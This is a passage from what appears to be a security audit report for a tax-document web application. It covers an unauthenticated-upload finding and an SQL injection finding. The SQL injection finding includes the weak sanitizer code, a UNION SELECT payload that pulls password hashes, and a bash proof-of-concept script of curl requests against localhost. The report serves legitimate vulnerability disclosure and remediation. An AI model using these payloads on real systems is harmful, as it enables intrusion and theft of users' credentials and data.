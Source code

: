 3. **Expected Results:**
- ❌ **Current:** Returns 200 OK with successful upload
- ✅ **Expected:** Returns 401 Unauthorized

### Impact
- Unauthorized users can upload malicious files
- Access to other users' sensitive tax documents
- Potential for data exfiltration

---

## C-002: SQL Injection via Manual Sanitization

### Vulnerability Description
Manual SQL sanitization in `server/db.ts` is insufficient and can be bypassed.

### Reproduction Steps

1. **Locate Vulnerable Code:**
```typescript
// File: server/db.ts line 33-36
export function sanitizeSqlInput(input: string): string {
  return input.replace(/['";\\]/g, '');
}
```

2. **Exploit Payloads:**
```javascript
// Test payload that bypasses sanitization
const maliciousInput = "1 UNION SELECT password_hash FROM users--";

// The sanitization only removes ['";\\] but misses:
// - SQL keywords (UNION, SELECT, WHERE)
// - Comment syntax (--)
// - Numeric injections
```

3. **Proof of Concept:**
```bash
#!/bin/bash
# File: test_sql_injection.sh

BASE_URL="http://localhost:5000"

# Test SQL injection in search parameters
echo "Testing SQL injection in file search..."
curl -X GET \
  "$BASE_URL/api/v1/files/search?searchTerm=1%20UNION%20SELECT%20password_hash%20FROM%20users--" \
  -H "Authorization: Bearer valid_jwt_token" \
  -v

# Test SQL injection in POST data
echo -e "\n\nTesting SQL injection in document creation..."
curl -X POST \
  $BASE_URL/api/tax-forms/test123/documents \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer valid_jwt_token" \
  -d '{
    "documentType": "1 UNION SELECT email,password_hash FROM users--"
  }' \
  -v
```
